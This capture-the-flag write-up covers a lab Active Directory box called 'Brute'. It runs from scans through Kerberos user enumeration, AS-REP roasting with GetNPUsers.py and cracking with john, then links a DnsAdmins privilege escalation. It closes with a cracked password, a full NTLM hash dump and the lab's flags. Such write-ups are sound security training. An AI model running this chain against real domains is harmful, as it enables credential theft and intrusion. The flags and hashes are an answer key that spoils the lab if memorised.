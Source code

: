 # BRUTE / Active Directory

![](https://github.com/TheLivestep/WRITEUPS/blob/master/.gitbook/assets/d021708423ec45ff9b88d667b17ca420.png)

## NMAP SCAN

```text
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2021-03-15 22:11:15Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: brute.csl0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 127
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: brute.csl0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 127
3389/tcp  open  ms-wbt-server syn-ack ttl 127 Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: BRUTE
|   NetBIOS_Domain_Name: BRUTE
|   NetBIOS_Computer_Name: BRUTE-DC
|   DNS_Domain_Name: brute.csl
|   DNS_Computer_Name: Brute-DC.brute.csl
|   Product_Version: 10.0.17763
|_  System_Time: 2021-03-15T22:12:15+00:00
|_ssl-date: 2021-03-15T22:12:23+00:00; -1s from scanner time.
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
47001/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49674/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49675/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49676/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49681/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49697/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49703/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
```

ADD brute.csl to your hosts

## SMB ENUMERATION

* DEAD END

## LDAP ENUMERATION

* NOTHING INTERESTING

  ```text
  PORT    STATE SERVICE VERSION
  389/tcp open  ldap    Microsoft Windows Active Directory LDAP (Domain: brute.csl, Site: Default-First-Site-Name)
  | ldap-rootdse: 
  | LDAP Results
  |   <ROOT>
  |       domainFunctionality: 7
  |       forestFunctionality: 7
  |       domainControllerFunctionality: 7
  |       rootDomainNamingContext: DC=brute,DC=csl
  |       ldapServiceName: brute.csl:brute-dc$@BRUTE.CSL
  |       isGlobalCatalogReady: TRUE
  |       supportedSASLMechanisms: GSSAPI
  |       supportedSASLMechanisms: GSS-SPNEGO
  |       supportedSASLMechanisms: EXTERNAL
  |       supportedSASLMechanisms: DIGEST-MD5
  ------REDACTED---------------
  ```

## KERBEROS

### USER ENUMERATION

```text
kerbrute -users /usr/share/seclists/Usernames/Names/names.txt -domain BRUTE -dc-ip brute.csl
```

![](https://github.com/TheLivestep/WRITEUPS/blob/master/.gitbook/assets/ac4ca40e463c421aae2f7efdf0fddd98.png)

```text
GetNPUsers.py brute.csl/ -usersfile name.txt -format john -outputfile hash
```

![](https://github.com/TheLivestep/WRITEUPS/blob/master/.gitbook/assets/4059f897a57f4d37bdae61f1d9c367d2.png)

```text
sudo john --wordlist=/opt/passwd/rockyou.txt hash
```

![](https://github.com/TheLivestep/WRITEUPS/blob/master/.gitbook/assets/0b857cd1b42a4960bdf68bd5c87b75d7.png)

## GET SHELL

![](https://github.com/TheLivestep/WRITEUPS/blob/master/.gitbook/assets/c7710267ed8942759e88bc3b4e0fe1ee.png)

### WINPEAS

* DNSADMIN GROUP

![](https://github.com/TheLivestep/WRITEUPS/blob/master/.gitbook/assets/fd84e5e3d6194c8482155fd964f2e974.png)

## PRIVESC

* [https://book.hacktricks.xyz/windows/active-directory-methodology/privileged-accounts-and-token-privileges\#dnsadmins](https://book.hacktricks.xyz/windows/active-directory-methodology/privileged-accounts-and-token-privileges#dnsadmins)

![](https://github.com/TheLivestep/WRITEUPS/blob/master/.gitbook/assets/6812b05362194ad3bb8bbf1193143cdf.png)

## CREDS

```text
tess:Unique1
```

```text
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e2068a39ee8150b697797d6c3e513df7:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:dce76e96c26970aa2b5073fc7d1039c0:::
darleen:1103:aad3b435b51404eeaad3b435b51404ee:010cd964be3ff74c0b02ad6b8055a990:::
malcolm:1104:aad3b435b51404eeaad3b435b51404ee:d0997f56bbdfc941c5c03a19268e3a44:::
Patrick:1105:aad3b435b51404eeaad3b435b51404ee:aaf14517351412e9d5264e354515a155:::
Tess:1106:aad3b435b51404eeaad3b435b51404ee:f51333fc5222add92d7e311ec06bd2ef:::
BRUTE-DC$:1000:aad3b435b51404eeaad3b435b51404ee:84ea5cc74bb571005e2ddc5cd72ca734:::
```

## FLAGS

### USER

```text
fb23c6d8d663aa63870cfb5e535597a8
```

### ROOT

```text
393bca87e3cb9dc049f3e61483f83cc1
```

